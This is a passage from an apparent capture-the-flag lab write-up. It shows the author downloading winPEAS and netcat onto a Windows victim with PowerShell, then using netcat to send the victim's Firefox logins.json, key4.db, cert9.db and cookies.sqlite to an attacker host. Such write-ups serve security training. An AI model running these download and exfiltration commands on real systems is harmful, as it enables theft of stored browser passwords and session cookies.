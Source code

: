 ### **Transfer WinPeas**

I tried transfering WinPeas but it couldn't run.

**Kali**

```
wget https://github.com/carlospolop/PEASS-ng/releases/download/20221127/winPEASx64.exe 
python2 -m SimpleHTTPServer 81
```

**Victim**

```
cd C:\Users\natbat\Desktop
powershell "(New-Object System.Net.WebClient).Downloadfile('http://$KALI:81/winPEASx64.exe','winPEASx64.exe')" 
winPEASx64.exe
```

### Transfer nc

To get the necessary files from Firefox we need to be able to transfer the files back to Kali so I transfered netcat.

**Kali**

<pre><code><strong>cp /root/Rooms/Follina-MSDT/nc64.exe .
</strong>python2 -m SimpleHTTPServer 81
</code></pre>

**Victim**

```
cd C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\
cd ljfn812a.default-release
powershell "(New-Object System.Net.WebClient).Downloadfile('http://$KALI:81/nc64.exe','nc64.exe')" 
```

**Kali**&#x20;

We need to transfer the following files one by one.

```
nc -nlvp 1234 > logins.json
nc -nlvp 1234 > key4.db 
nc -nlvp 1234 > cert9.db 
nc -nlvp 1234 > cookies.sqlite
```

**Victim**

```
nc64.exe -nv $KALI 1234 < logins.json
nc64.exe -nv $KALI 1234 < key4.db 
nc64.exe -nv $KALI 1234 < cert9.db 
nc64.exe -nv $KALI 1234 < cookies.sqlite
```
